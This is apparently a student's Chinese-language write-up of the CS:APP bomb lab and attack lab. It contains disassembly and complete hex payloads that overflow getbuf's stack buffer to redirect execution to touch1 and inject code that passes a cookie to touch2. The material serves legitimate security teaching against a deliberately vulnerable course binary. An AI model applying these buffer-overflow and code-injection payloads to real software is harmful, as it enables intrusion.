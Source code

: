 ```c
  401227:	74 14                	je     40123d <fun7+0x39>  edx==esi跳
  401229:	48 8b 7f 10          	mov    0x10(%rdi),%rdi
  40122d:	e8 d2 ff ff ff       	callq  401204 <fun7>
  401232:	8d 44 00 01          	lea    0x1(%rax,%rax,1),%eax eax=rax+rax*1+1
  401236:	eb 05                	jmp    40123d <fun7+0x39>
  401238:	b8 ff ff ff ff       	mov    $0xffffffff,%eax eax=0xffffffff
  40123d:	48 83 c4 08          	add    $0x8,%rsp
  401241:	c3                   	retq   
```
fun4的返回值必须为2，往前面推就可以了，这个是一个递归，对应的二叉树
									0x24
				0x8 								 0x32
	  0x6    		    0x16                0x2d 			  0x6b
就画到这里吧，最后的值为0x16,因为返回值必为2，则值必须小于0x16,此时与0x8比较，这里必须大于因为这里要返回1，
0x16就出来了

## lab3-attacklab ##

### 和实验内容相关的指令 ###
1.sudo gcc -c asm.s(asm.s中存放汇编代码)
2.objdump -d + 文件名(可以查看上一步中生成的机器码，或者查看题目文件的汇编代码)
3.cat cookie.txt | ./hex2raw | ./rtarget(用于确认答案)

### level1 ###
要求:getbuf返回到touch1
先反汇编getbug，如下
```python
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 8c 02 00 00       	callq  401a40 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
  4017bd:	c3                   	retq   
  4017be:	90                   	nop
  4017bf:	90                   	nop
```
这不就是"a"* 0x28+ad_touch1,touch1地址为0x4017c0
payload如下
```python
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 c0 17 40 00 00 00 00 00
```

### level2 ###
要求:ret touch2时，touch2的参数需要为cookie(一开始以为栈的地址是随机的，没想到是固定的，而且可写可读)
rsp_ad=0x5561dc78,cookie=0x59b997fa，touch2_ad=0x4017ec
mov %0x59b997fa,%rdi的机器码为bf fa 97 b9 59，ret的机器码为c3
payload如下
```python
BF FA 97 B9 59 C3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55 00 00 00 00 EC 17 40 00 00 00 00 00
```
一开始mov $0x59b997f，%rdi,没加$，导致反汇编的机器码一直是错的......
